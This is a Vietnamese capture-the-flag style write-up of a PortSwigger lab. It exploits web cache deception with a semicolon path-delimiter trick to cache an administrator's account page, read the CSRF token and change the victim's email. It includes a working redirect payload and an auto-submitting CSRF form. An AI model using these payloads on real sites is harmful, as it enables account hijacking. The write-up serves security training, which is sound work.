







# Write-up: Exploiting exact-match cache rules for web cache deception

### Tổng quan
Khai thác lỗ hổng web cache deception do quy tắc cache khớp chính xác, sử dụng ký tự `;` để thao túng URL `/my-account`, đánh lừa hệ thống cache lưu trữ trang tài khoản của `administrator`, lấy CSRF token, tạo PoC để đổi email và hoàn thành lab.

### Mục tiêu 
- Khai thác lỗ hổng web cache deception để lấy CSRF token của `administrator`, tạo CSRF PoC, đổi email và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser
- Exploit Server (PortSwigger)

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập tài khoản `wiener`:`peter`
- Gửi `GET /my-account` tới Burp Repeater:
    - thêm `/abc`
    - **Phản hồi**: "Not found", cho thấy `/my-account` yêu cầu khớp chính xác.
        

- Dò ký tự đặc biệt bằng Burp Intruder: `GET /my-account§/§abc`:
    - **Kết quả**: Ký tự `;` và `?` được chấp nhận nhưng không có header x-cache: miss hoặc hit:
        

- Kiểm tra cache với file tĩnh:
    - Quan sát yêu cầu `GET /resources/js/tracking.js`: không có header x-cache, gợi ý hệ thống cache chỉ hoạt động với một số endpoint.

- Thử cache với `robots.txt`: `GET /resources/../robots.txt`:
    - Lần 1: **Phản hồi**: `x-cache: miss`.
        
    - Lần 2: **Phản hồi**: `x-cache: hit`, xác nhận hệ thống cache lưu trữ `robots.txt`:
        

- Kiểm tra ký tự `?` và `;` với cache: 
    `GET /my-account?%2f%2e%2e%2frobots.txt`
    - **Phản hồi**: Không có `x-cache`, cho thấy `?` không được cache.
    
    `GET /my-account;%2f%2e%2e%2frobots.txt`
    - **Phản hồi**: Có tiềm năng cache, chọn `;` để khai thác.

2. **Khai thác (Exploitation)**
- Sử dụng Exploit Server để gửi payload lừa nạn nhân (`administrator`) truy cập:
    ```
    <script>document.location="https://lab-id.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt?wcd"</script>
    ```
    - Lưu payload vào body của Exploit Server và gửi tới nạn nhân qua chức năng `"Deliver exploit to victim"`:
        

- Kiểm tra cache: `GET /my-account;%2f%2e%2e%2frobots.txt?wcd`
    - **Phản hồi**: `x-cache: hi`t, trả về trang `/my-account` của `administrator` nhưng bị redirect tới trang đăng nhập.

- Gửi lại payload qua Exploit Server để đảm bảo administrator truy cập và cache lại trang.
- Lấy CSRF token của administrator: `GET /my-account;%2f%2e%2e%2frobots.txt?111`
    - **Phản hồi**: Lấy được CSRF token `IxmtUWXSWGQXwzaKLvrO1Al2KAdYaaxm`:
        

- Trong Burp Proxy > HTTP History, tìm yêu cầu `POST /my-account/change-email`, gửi tới Burp Repeater:
    - Thay CSRF token bằng token của `administrator` (`IxmtUWXSWGQXwzaKLvrO1Al2KAdYaaxm`) và đổi email thành một eamil không giống email wiener
    - Sử dụng Burp Engagement Tools > Generate CSRF PoC, sao chép HTML.
    - Dán HTML vào body của Exploit Server:
        ```html
        <html>
        <body>
            <form action="https://lab-id.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="csrf" value="IxmtUWXSWGQXwzaKLvrO1Al2KAdYaaxm">
            <input type="hidden" name="email" value="hacker@example.com">
            <input type="submit" value="Submit request">
            </form>
            <script>
            document.forms[0].submit();
            </script>
        </body>
        </html>
        ```
        

- Gửi exploit tới nạn nhân qua Exploit Server
    - **Phản hồi**: Email của `administrator` bị đổi, hoàn thành lab:   
        

- **Giải thích**: Lỗ hổng web cache deception do quy tắc cache khớp chính xác cho phép lưu trữ trang `/my-account` của `administrator` khi thêm `;%2f%2e%2e%2frobots.txt`, giúp lấy CSRF `token`. CSRF PoC tận dụng token để đổi email.

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng web cache deception bằng cách thao túng URL với ký tự ; để lưu trữ trang nhạy cảm và lấy dữ liệu như CSRF token.
- Nhận thức tầm quan trọng của việc cấu hình cache an toàn và kiểm tra các ký tự đặc biệt trong URL để ngăn chặn web cache deception.

### Tài liệu tham khảo
- PortSwigger: Web Cache Deception

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác web cache deception để lấy CSRF token, thực hiện tấn công CSRF, và hiểu cách bảo vệ hệ thống cache khỏi các cuộc tấn công tương tự. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*